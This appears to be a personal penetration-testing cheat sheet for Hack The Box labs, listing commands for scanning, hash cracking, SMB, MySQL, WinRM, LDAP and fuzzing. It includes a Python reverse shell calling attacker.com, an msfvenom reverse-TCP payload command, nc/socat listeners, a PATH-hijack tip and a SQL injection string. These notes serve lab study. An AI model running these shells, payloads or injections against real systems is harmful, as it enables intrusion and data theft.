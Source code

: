 % -nmap -sC -sV -p- [IP]
scp [source] [dest] (dest htb == username@hostname:dirpath)
pwnbox wordlists 
	 -/opt/useful/SecLists/Usernames/Names/names.txt

ftp
	url : ftp://user:password@host:port/path (don't forget the "/" at the end if you want to get a directory)

python
	open shell
		python3 -c "import pty; pty.spawn('/bin/bash')"
	reverse shell
		export RHOST=attacker.com
		export RPORT=12345
		python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
	listener for reverse shell on attack machine
		socat file:`tty`,raw,echo=0 tcp-listen:12345
			OR
		nc -lvnkp 12345
	make shell better
		Ctrl+Z (to put shell in bg)
		stty -raw
		fg 

hashcat
	hashcat --example-hashes |grep -b1 -A3 [hash type] //to find the mode
	hashcat -m [mode, recovered up there] -a 0 [path_to_hash] [path_to_wordlist]

linux
	find . -name [root,user].txt
	sudo -l //check commands that can be run as sudo with your current user
	export PATH=[enter folder to add to path]:$PATH //think about modifying the path to make a common command execute YOUR code :D
	kill -BUS [process] //SIGBUS can generate crashlogs

msfconsole
	searchsploit [name of service etc.]
	msfvenom -p windows/powershell/reverse_tcp LHOST=[My IP] LPORT=[Chosen Port for Reverse Shell] -a x86 -f ps1 -o pwn.ps1
	use exploit/multi/handler

smbclient 
	smbclient \\\\[ip]\\[directory to bind] {-U [user] OR -N (if no user)} -c [command]
	useful command : 'prompt OFF; recurse ON; mget*' (to download everything)

mysql
	mysql -u [user] -D [name of database] -p [password]
	show databases;
	select [database];
	show tables;

Windows
	more < FILE_PATH | findstr ".exe"
	net user [username]
	Get-ADUser -identity [username] -properties * //enumerate group membership
	sudo gem install evil-winrm
		evil-winrm -i [IP of victim machine] -u [user to connect to] -p [password of user]
	icacls [folder or file name] //Check permissions of users

SQL Injection
	admin' OR '1'='1 //TOSTUDY

ffuf
	ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u [url of host to fuzz] -H 'Host: [put FUZZ in places you want to fuzz example : FUZZ.schooled.htb]' -fs [filter packet with length]

ldap 
	nmap -n -sV --script "ldap* and not brute" <IP>smb
	ldap_search
		https://github.com/m8r0wn/ldap_search
		sudo ldap_search -U users.txt -p [password] -d [ldap domain] //with users.txt as list of users

impacket
	https://www.kali.org/tools/impacket-scripts/
